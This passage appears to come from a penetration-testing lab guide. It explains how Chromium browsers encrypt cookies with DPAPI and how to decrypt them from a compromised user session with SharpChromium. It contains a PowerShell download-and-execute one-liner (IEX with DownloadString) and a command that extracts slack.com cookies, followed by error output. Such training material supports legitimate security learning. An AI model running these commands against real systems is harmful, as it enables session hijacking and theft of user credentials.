 <figure><img src="../../../../.gitbook/assets/image (397).png" alt=""><figcaption></figcaption></figure>

### **Cookie Extraction from Chromium-based Browsers**

The chromium-based browser also stores its cookies information in an SQLite database. The only difference is that the cookie value is encrypted with [Data Protection API (DPAPI)](https://docs.microsoft.com/en-us/dotnet/standard/security/how-to-use-data-protection). `DPAPI` is commonly used to encrypt data using information from the current user account or computer.

To get the cookie value, we'll need to perform a decryption routine from the session of the user we compromised. Thankfully, a tool [SharpChromium](https://github.com/djhohnstein/SharpChromium) does what we need. It connects to the current user SQLite cookie database, decrypts the cookie value, and presents the result in JSON format.

Let's use [Invoke-SharpChromium](https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpBinaries/Invoke-SharpChromium.ps1), a PowerShell script created by [S3cur3Th1sSh1t](https://twitter.com/ShitSecure) which uses reflection to load SharpChromium.

### **PowerShell Script - Invoke-SharpChromium**

```powershell
PS C:\htb> IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSh
arpPack/master/PowerSharpBinaries/Invoke-SharpChromium.ps1')
PS C:\htb> Invoke-SharpChromium -Command "cookies slack.com"

[*] Beginning Google Chrome extraction.

[X] Exception: Could not find file 'C:\Users\lab_admin\AppData\Local\Google\Chrome\User Data\\Default\Cookies'.

   at System.IO.__Error.WinIOError(Int32 errorCode, String maybeFullPath)
   at System.IO.File.InternalCopy(String sourceFileName, String destFileName, Boolean overwrite, Boolean checkout)
   at Utils.FileUtils.CreateTempDuplicateFile(String filePath)
   at SharpChromium.ChromiumCredentialManager.GetCookies()
```